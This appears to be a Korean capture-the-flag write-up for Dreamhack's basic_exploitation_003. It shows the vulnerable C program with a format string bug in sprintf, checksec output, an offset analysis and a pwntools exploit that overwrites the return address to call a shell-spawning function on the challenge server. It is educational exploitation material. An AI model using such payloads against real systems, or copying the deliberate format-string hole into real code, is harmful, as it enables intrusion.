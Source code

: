```c
// Name: basic_exploitation_003.c

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
int main(int argc, char *argv[]) {
    char *heap_buf = (char *)malloc(0x80);
    char stack_buf[0x90] = {};
    initialize();
    read(0, heap_buf, 0x80);
    sprintf(stack_buf, heap_buf);
    printf("ECHO : %s\n", stack_buf);
    return 0;
}```

```bash
$ checksec ./basic_exploitation_003
[*] './basic_exploitation_003'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

# 코드 분석

`basic_exploitation_003.c:22-23` : `read` 함수를 통해 얻은 문자열 `heap_buf`를 그대로 `sprintf` 함수의 format string으로 사용하고 있으므로 format string bug를 일으킬 수 있다.
`basic_exploitation_003.c:23-24` : format string bug가 발생할 수 있는 패턴의 `sprintf` 함수를 통해 `stack_buf`에 데이터를 쓰고 있으므로 buffer overflow를 발생시킬 수 있으며, 이를 통해 RET를 `get_shell`의 주소로 덮어쓰면 shell을 탈취할 수 있을 것이다.

# 공격

gdb를 활용하여 `stack_buf`가 `ebp-0x98`임을 알 수 있다.
이때, RET는 `ebp+0x4`임을 알고 있으므로, `stack_buf`에 156바이트의 더미 데이터와 `get_shell`의 주소를 넣어주면 됨을 알 수 있다.
이를 종합하여 익스플로잇 코드를 다음과 같이 구성하면 shell을 탈취할 수 있다.

```python
# Name: basic_exploitation_003.py

from pwn import *

def slog(name,addr): success(f'{name}: {hex(addr)}')

HOST = 'host3.dreamhack.games'
PORT = 21132

p = remote(HOST,PORT)
e = ELF('./basic_exploitation_003')

get_shell = e.sym['get_shell']

payload = b'%156c' + p32(get_shell)

p.send(payload)
p.interactive()
```